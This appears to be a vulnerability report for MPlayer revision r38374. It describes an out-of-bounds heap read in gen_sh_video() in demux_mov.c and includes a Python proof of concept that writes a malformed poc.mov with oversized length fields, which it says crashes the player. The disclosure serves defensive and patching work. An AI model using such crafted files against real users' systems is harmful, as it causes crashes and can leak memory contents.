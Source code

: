 # mplayer has a heap overflow vulnerability

## Affected versions

SVN-r38374

## Download and installation method

Use the following command to download the latest version of the source code from the mplayer repository:
- svn checkout svn://svn.mplayerhq.hu/mplayer/trunk mplayer
Then enter the mplayer directory and execute the following command to roll back to version 38374 where the vulnerability occurred:
- svn up -r 38374

## Vulnerability Details

There is a heap overflow vulnerability in the gen_sh_video() function in the libmpdemux/demux_mov.c file in the Mplayer source code directory.

<img width="640" alt="image" src="https://github.com/user-attachments/assets/f55596a6-b93b-4115-8f43-cb55693b0227" />

The size of the variable poffs is not checked before using the mp_msg() function to print the prompt information, resulting in an out-of-bounds read of the heap memory and leaking sensitive address information or data in the program.
During the out-of-bounds read process, it is possible that a segment fault occurs when accessing unmapped virtual memory, causing the program to crash.

POC
poc.mov
```
with open("poc.mov", "wb") as f:
    f.write(b'\x00' * 14)  # 14 bytes placeholder
    
    # sps count = 1
    f.write(b'\x01')
    
    f.write(b'\xFF\xFF')
    
    # dummy sps data
    f.write(b'\x00' * 0xFFFF)
    
    # pps count = 0xFF (超大)
    f.write(b'\xFF')
    
    for _ in range(0xFF):
        f.write(b'\xFF\xFF')  # 长度
        f.write(b'\x00' * 0xFFFF)
```
Running poc.mov causes the system to crash

<img width="640" alt="image" src="https://github.com/user-attachments/assets/0e1b2d05-abd7-46f8-9116-37e3e4c153a0" />
